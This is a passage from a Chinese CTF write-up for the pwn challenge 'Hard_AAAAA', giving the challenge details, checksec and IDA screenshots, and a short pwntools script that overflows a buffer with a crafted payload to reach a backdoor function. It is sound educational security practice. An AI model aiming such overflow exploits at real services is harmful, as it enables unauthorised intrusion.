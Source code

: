 憋足脚本2333，，，得到flag

# Pwn

![pwn](https://tva1.sinaimg.cn/large/0082zybpgy1gbxhar2n23j31mc0eomxi.jpg)

### Hard_AAAAA

> 描述
>
> 无脑AAA太无聊了，挑战更高难度的无脑AAA！
>
> nc 47.103.214.163 20000
>
> 题目地址 链接:https://pan.baidu.com/s/19SbtWLIt8gdzpwlbOjfbwQ  密码:sxdq
>
> 基准分数 75
>
> 当前分数 75
>
> 完成人数 173

例行检查

![checksec](https://tva1.sinaimg.cn/large/0082zybpgy1gbxhn8wxhij30u808sdjh.jpg)

用ida打开

![ida](https://tva1.sinaimg.cn/large/0082zybpgy1gbxho4q50xj310s0h0gq4.jpg)

覆盖变量为特定内容控制程序执行后门函数即可

![ida](https://tva1.sinaimg.cn/large/0082zybpgy1gbxhpj3qcwj313k05s76m.jpg)

写exp

```python
#!/usr/bin/env python2 

# -*- coding: utf-8 -*-  

from pwn import *  

p = process('./aaa')
#p = remote("47.103.214.163",  20001)

p.recvuntil('0O0!\n')
payload = 'a'*123+'0O0o'+'\0'+'O0'

p.send(payload)


p.interactive()

```
